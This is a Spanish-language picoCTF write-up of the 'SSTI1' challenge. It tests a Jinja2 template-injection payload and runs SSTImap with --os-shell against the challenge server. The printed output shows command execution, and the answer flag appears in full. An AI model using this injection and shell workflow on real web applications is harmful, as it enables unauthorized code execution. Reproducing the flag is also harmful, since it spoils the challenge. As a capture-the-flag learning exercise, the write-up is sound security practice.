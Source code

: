 ```yaml
---
title: SST1
date: 2025-04-10 17:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, ssti, sstimap, explotación web]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>SSTI1
Author: Venax
Description
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!
{: .prompt-tip }

El reto parece mostrar una web donde puedes introducir lo que quieras y lo mostrará en una página
Lanzamos la instancia y nos mostrará una web con un formulario y un botón para enviarlo. 
``` html
 Home

I built a cool website that lets you announce whatever you want!*
What do you want to announce: 

*Announcements may only reach yourself 
```
Cuando envías el formulario en el botón ok , te redirige a una web http://rescued-float.picoctf.net:54968/announce y allí aparecerá
el "anuncio" introducido en letras grandes

Al principio no tenía ni idea así que mire la pista que da, __Server Side Template Injection__ . Entonces fue cuando caí en la cuenta
muchos templates utilizan las llaves "{}" para parametrizar valores en los mismos, entonces comencé a experimentar con este tipo de 
inyección. 

Encontré una que produjo un error en el servidor al dividir por 0, lo que indica que en cierta manera el servidor ejecuta lo que está dentro de las llaves
``` shell
{ {1/0} }
```

``` html
Internal Server Error

The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.
```

Para tratar de explotar si existiera alguna vulenerabilidad utilizo SSTIMap [hacktools/#ssti](../hacktools/#ssti)
La primera prueba me confirma que parece que la web utiliza un plugin que es inyectable
**jinja2 plugin has confirmed injection with tag '*'**

Ahora podría atacar el plugin en concreto pero voy a intentarlo de nuevo pasandole la flag --os-shell y ver que pasa
``` shell
(sstimap) pablo☠office sstimap$ python sstimap.py --url="http://rescued-float.picoctf.net:55270" -f  --os-shell

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║  _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.2.3
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; generic: 3; legacy_engines: 2; engines: 17
[*] Loaded request body types: 4

[*] Starting form detection...
[+] Form found: POST http://rescued-float.picoctf.net:55270/ "content="
[*] Scanning form with url: http://rescued-float.picoctf.net:55270/
[*] Testing if Body parameter 'content' is injectable
[*] Twig_v1 plugin is testing rendering with tag '*'
[*] Freemarker plugin is testing rendering with tag '*'
[*] Jinja2 plugin is testing rendering with tag '*'
[+] Jinja2 plugin has confirmed injection with tag '*' 
[+] SSTImap identified the following injection point:

  Body parameter: content
  Engine: Jinja2
  Injection: *
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, python code

[+] Run commands on the operating system.
posix-linux $ ls
__pycache__
app.py
flag
requirements.txt
posix-linux $ cat flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}
```
Pues resulta que te podemos conseguir una shell y haciendo un simple ls y cat obtenemos la flag.

flag: **picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}**